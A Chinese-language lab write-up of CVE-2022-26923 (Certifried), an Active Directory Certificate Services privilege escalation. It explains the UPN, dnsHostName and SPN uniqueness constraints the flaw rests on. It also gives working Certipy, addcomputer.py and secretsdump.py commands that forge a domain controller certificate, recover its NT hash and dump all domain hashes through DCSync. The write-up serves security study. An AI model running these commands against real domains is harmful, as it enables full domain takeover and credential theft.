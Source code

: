 # CVE-2022-26923分析

作者ly4k的5月11日公布的漏洞

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220513151530.png)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220512152515.png)

攻击利用过程

certutil -config - -ping

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220512145457.png)

certipy req 'ekko.local/ae86:Aa1234567@ad2.ekko.local' -ca ekko-AD2-CA -template User

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220512151248.png)

使用颁发的证书对 KDC 进行 Kerberos 身份验证，并获取该用户的 TGT 票据，并检索NT哈希，如下图所示。

certipy auth -pfx ae86.pfx -username ae86 -domain ekko.local -dc-ip 192.168.1.128

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220512153319.png)

我们知道默认情况下，普通域用户可以注册User证书模板，域计算机可以注册机器Machine证书

https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/1192823c-d839-4bc3-9b6b-fa8c53507ae1

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220512171205.png)

计算机用户和普通用户在对AD CS发起请求时，是有不同的模板，用户账号具有用户主体名称UPN（userPrincipalName），反之机器账号则没有。当使用证书进行身份验证时候，KDC会尝试讲UPN从证书映射到用户，用户模板的User msPKI-Certificate-Name-Flag 属性User，可以看到CT_FLAG_SUBJECT_ALT_REQUIRE_UPN。

根据MS-ADTS（3.1.1.5.1.3 Uniqueness Constraints）规范，UPN的值必须是唯一的，这意味着不能有两个相同的UPN值，例如，我们尝试将ae86的UPN修改为linan@ekko.local，会发生约束冲突，因为linan的upn已经被linan用户占用了

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220512175240.png)

查看机器账户的证书模板，发现机器账户需要指定SubjectAltRequireDns（CT_FLAG_SUBJECT_ALT_REQUIRE_DNS)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220512160611.png)

添加一个机器账号，并为机器账号申请AD CS证书

python3 addcomputer.py ekko.local/ae86:Aa1234567 -method LDAPS -computer-name ekko\$ -computer-pass Passw0rd -dc-ip ad1.ekko.local

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220512185441.png)

certipy req ekko.local/ekko\$:Passw0rd@ad2.ekko.local -ca 'ekko-AD2-CA' -template 'Machine'

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220512185824.png)

查看机器账户的DnsHostName值

发现dnsHostname名字已经变成ekko.ekko.local

如果把dnshostname的值改成dc计算机账号相同的dnshostname值，是否能够欺骗adcs,请求到ad的证书。很显然这里和之前的漏洞CVE-2021-42287和CVE-2021-42278 nopac的漏洞是类似的，可以看下samaccountname和userprincipalName的区别。

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220512174000.png)

文中并没有提及dnsHostName的属性必须是唯一的，但是对于计算机的创建者来说，拥有对计算机validated write to computer attributes 权限，也就是说，我们可以把ekko$机器账户的dnshostname属性值改成域控的dns主机名

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220513135212.png)

这样执行会产生报错

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220513135257.png)

能够注意到spn的值已经改变，也就是说dnsHostName和spn两个属性是相互关联的，修改了ekko$机器账户的dnsHostName属性时，RestrictedKrbHost/ekko.ekko.local和HOST/ekko.ekko.local两条spn将会更新。

即我们把他改成dnsHostName改成ad1的话那么servicePrincipalName里面的两条就会变成RestrictedKrbHost/ad1.ekko.local和HOST/ad1.ekko.local，字段会和域控的属性重复，而servicePrincipalName属性具有唯一性，所以会和域控的属性引发约束冲突。

但是spn包含的DnsHostName值必须有DnsHostName属性，但是我们可以删除spn包含的dnsHostName值

如下图所示

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220513140946.png)

然后再次尝试修改机器账户的dnsHostName属性值为ad1.ekko.local，这次就会修改成功

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220513141332.png)

继续用机器账户身份使用Machine模板请求证书，该模板应该嵌入了dnsHostName属性作为标识

certipy req ekko.local/ekko\$:Passw0rd@ad2.ekko.local -ca 'ekko-AD2-CA' -template 'Machine'

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220513141915.png)

成功获取到ad1.ekko.local的证书，然后我们使用证书进行身份验证，获取到用户的NT哈希

certipy auth -pfx ad1.pfx -dc-ip 192.168.1.128

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220513142227.png)

接下来用NT哈希 Dcsync转储所有用户hash

python3 secretsdump.py 'ekko.local/ad1$@ad1.ekko.local' -hashes :3a8af619da8032a36e815ac5f535a8a6

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220513142603.png)

## 漏洞复现

作者更新了Certipy(https://github.com/ly4k/Certipy)，可以轻松创建机器账号并请求证书功能

certipy account create 'ekko.local/ae86:Aa1234567@ad1.ekko.local' -user 'ae86pc' -dns 'ad1.ekko.local'

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220513144240.png)

certipy req 'ekko.local/ae86pc$:SLheJGDAq5KNO2Fe@ad2.ekko.local' -ca ekko-AD2-CA -template Machine

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220513150542.png)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220513150758.png)

然后再次dcsync即可

## bof实战利用

CVE-2022-26923 DCPWN 机器名后面不加$

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220514160905.png)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220514160810.png)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220514162153.png)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20220514162416.png)

参考文献

https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4

https://github.com/ly4k/Certipy

https://mp.weixin.qq.com/s?src=11&timestamp=1652338011&ver=3793&signature=wwbuwQS-1sfdogEkUrXkmBF-hbyTd9xPdTut-LGt3N-G6*KYPRdascc9ljW0SFRsrPXEw5rTYW5YDwXoOtc9zL7x6uK50emjjVXL1mvgdF32av*8fZAkgTV1Zlgil2p2&new=1
